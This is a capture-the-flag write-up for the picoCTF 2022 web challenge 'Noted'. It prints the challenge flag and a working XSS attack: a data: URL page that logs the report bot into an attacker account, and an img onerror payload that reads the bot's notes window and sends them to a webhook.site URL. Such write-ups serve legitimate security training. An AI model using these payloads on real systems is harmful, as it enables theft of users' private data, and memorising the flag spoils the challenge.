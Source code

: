   # picoCTF2022: Noted

![Contest Date: 15.03.2022](https://img.shields.io/badge/Contest%20Date-15.03.2022-lightgrey.svg)
![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg)
![Score: 500](https://img.shields.io/badge/Score-500-brightgreen.svg)

## Description

> I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does not have access to the internet.




## Attached Files

- noted.tar.gz

## Flag

```
picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}
```

## Detailed Solution

After looking at the source, it seems that this is a website that allows to create an account, login, and create notes. The notes seem to be private, and only visible to the logged in user, and are not accessible through some URL. Looking at some past challenges and writeups such as [TBDXSS](https://ctftime.org/task/17592) and [XSS On Other Domain](https://www.youtube.com/watch?v=9ecv6ILXrZo). We see that this website is vurlnerable to XSS. The latter video seems especially helpful, because we want to craft a payload to get the flag on another domain. So now let's try to reiterate on what we exactly want to do. We want some payload, which our bot will run to steal it's notes which will contain the flag. However, we need to make the bot run this directly. One ideal plan would be to create a temporary account, and put the XSS Payload that will print the contents of a window of the bot, which will have the flag. And then from the Report function we first open a window which we can later use to read the contents of the bots notes, and getthe flag. Then we can open a window which we can then login to the temporary account we created, and access the notes of the temporary account which will run our payload, and send the flag through a webhook. Now implementing this, we get

```html
data:text/html,<form action="http://0.0.0.0:8080/login" method=POST id=l target=_blank>
<input type="text" name="username" value="t"><input type="text" name="password" value="t">
</form><iframe id=c name=b></iframe><iframe id=d></iframe><script>window.open('http://0.0.0.0:8080/notes%27,'n');setTimeout(`l.submit()`,1000);setTimeout(`window.location='http://0.0.0.0:8080/notes?zz'`,1500)</script>
```
We will use this in our report function.

```html
<img src=x onerror="if(window.location.search.includes('zz'))window.location='https://webhook.site/bc465fa8-238e-4b8b-b771-4fa454413bf5/'+window.open('', 'n').document.body.textContent">
```

We will put this in the notes of our temporary account.

Now trying this out we get this in our webhook, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-04%20at%207.43.03%20PM.png)</p>.

Now URL Decoding this we get our flag :D, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-04%20at%207.45.11%20PM.png)</p>.
